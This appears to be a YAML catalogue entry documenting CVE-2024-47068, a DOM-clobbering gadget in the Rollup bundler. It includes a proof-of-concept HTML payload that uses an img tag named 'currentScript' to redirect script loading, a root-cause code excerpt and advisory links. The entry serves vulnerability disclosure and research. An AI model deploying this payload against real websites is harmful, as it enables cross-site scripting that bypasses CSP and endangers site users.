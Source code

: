 ```yaml
---
description: Next-generation ES module bundler 
github: rollup/rollup
gadgets:
  <4.22.4:
    cve: CVE-2024-47068 
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - firefox-browser
      - img-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: As with [Webpack](https://github.com/webpack/webpack), modules were loaded dynamically using the `document.currentScript.src` path, which can be clobbered.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/">

          <script nonce="secret" src="[current-location]/assets/libs/rollup/bundle.js"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/rollup/rollup/blob/v4.22.3/test/form/samples/import-meta/_expected/cjs.js">https://github.com/rollup/rollup/blob/v4.22.3/test/form/samples/import-meta/_expected/cjs.js</a>

      ```javascript
      var _documentCurrentScript = typeof document !== 'undefined' ? document.currentScript : null;
      var s = document.createElement('script');
      s.src = (typeof document === 'undefined' ? require('u' + 'rl').pathToFileURL(__filename).href : (_documentCurrentScript && _documentCurrentScript.src || new URL('bundle.js', document.baseURI).href)) + 'extra.js';
      document.head.append(s);
      ```
    links:
      - https://github.com/advisories/GHSA-gcx4-mw62-g8wm
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/rollup.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

